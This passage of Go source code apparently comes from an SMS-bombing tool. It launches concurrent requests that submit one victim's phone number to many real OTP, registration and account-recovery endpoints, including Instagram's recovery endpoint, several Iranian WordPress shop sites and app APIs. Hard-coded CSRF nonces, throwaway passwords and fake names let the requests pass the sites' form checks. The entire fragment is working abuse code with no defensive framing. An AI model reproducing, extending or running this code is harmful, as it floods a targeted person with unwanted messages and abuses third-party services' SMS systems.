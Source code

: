 		}, ch)
		s50 := fmt.Sprintf("email_or_username=%2B%s&recaptcha_challenge_field=&flow=&app_id=&source_account_id=", phone)
		go sms("https://www.instagram.com/accounts/account_recovery_send_ajax/", map[string]interface{}{
			s50: phone,
		}, ch)
		s51 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=d33076d828&login=2&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&digregscode2=%2B98&mobmail2=&digregcode=%2B98&digits_reg_mail=%s&digits_reg_password=mahyar125&dig_otp=&code=&dig_reg_mail=&dig_nounce=d33076d828", phone, phone)
		go sms("https://shop.hemat-elec.ir/wp-admin/admin-ajax.php", map[string]interface{}{
			s51: phone,
		}, ch)
		s52 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=2d39af0a72&login=2&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&digregcode=%2B98&digits_reg_mail=%s&digregscode2=%2B98&mobmail2=&dig_otp=&code=&dig_reg_mail=&dig_nounce=2d39af0a72", phone, phone)
		go sms("https://www.mipersia.com/wp-admin/admin-ajax.php", map[string]interface{}{
			s52: phone,
		}, ch)
		s53 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=18551366bc&login=2&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&digits_reg_lastname=%D9%84%D8%A8%D8%A8%DB%8C%DB%8C%D8%A8%D8%AB%D9%82%D8%AD&digits_reg_displayname=%D8%A8%D8%A8%D8%A8%DB%8C%D8%B1%D8%A8%D9%84%D9%84%DB%8C%D8%A8%D9%84&digregscode2=%2B98&mobmail2=&digregcode=%2B98&digits_reg_mail=%s&digits_reg_password=&digits_reg_avansbirthdate=2003-03-21&jalali_digits_reg_avansbirthdate1867119037=1382-01-01&dig_otp=&code=&dig_reg_mail=&dig_nounce=18551366bc", phone, phone)
		go sms("https://www.kodakamoz.com/wp-admin/admin-ajax.php", map[string]interface{}{
			s53: phone,
		}, ch)
		s54 := fmt.Sprintf("mobile=%s&password=mamad1234", phone)
		go sms("https://tajtehran.com/RegisterRequest", map[string]interface{}{
			s54: phone,
		}, ch)
		s55 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=0864ed5c9b&login=2&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&digregcode=%2B98&digits_reg_mail=%s&dig_otp=&code=&dig_reg_mail=&dig_nounce=0864ed5c9b", phone, phone)
		go sms("https://zivanpet.com/wp-admin/admin-ajax.php", map[string]interface{}{
			s55: phone,
		}, ch)
		s56 := fmt.Sprintf("'mobile':%s,'deviceTypeCode':0,'confirmTerms':'True','notRobot':'False'", phone)
		go sms("https://api-react.okala.com/C/CustomerAccount/OTPRegister", map[string]interface{}{
			s56: phone,
		}, ch)
		go sms("https://client.api.paklean.com/user/resendVoiceCode", map[string]interface{}{
			"username": phone,
		}, ch)
		go sms("https://web.raghamapp.com/api/users/code", map[string]interface{}{
			"phone": phone,
		}, ch)
		go sms("https://gateway.trip.ir/api/registers", map[string]interface{}{
			"CellPhone": phone,
		}, ch)
		go sms("https://gateway.trip.ir/api/Totp", map[string]interface{}{
			"PhoneNumber": phone,
		}, ch)
